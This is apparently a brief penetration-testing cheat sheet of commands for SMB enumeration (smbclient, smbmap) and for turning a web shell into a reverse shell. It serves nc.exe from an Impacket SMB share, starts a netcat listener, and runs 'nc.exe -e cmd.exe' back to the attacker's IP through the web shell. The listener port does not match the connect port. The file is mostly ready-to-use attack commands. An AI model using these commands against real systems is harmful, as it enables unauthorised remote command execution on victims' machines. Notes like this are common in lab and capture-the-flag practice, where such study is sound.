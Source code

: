 # SMB

test connection:

`smbclient -L \\\\192.168.56.108\\`

`smbmap -R -H 10.10.10.4`

## nc shell from web shell

```
~# smbserver.py share smb
#start nc on attacker's machine
~# nc -lvp 555
```
execute from the webshell:

`\\10.10.14.7\share\nc.exe -e cmd.exe 10.10.14.7 5555`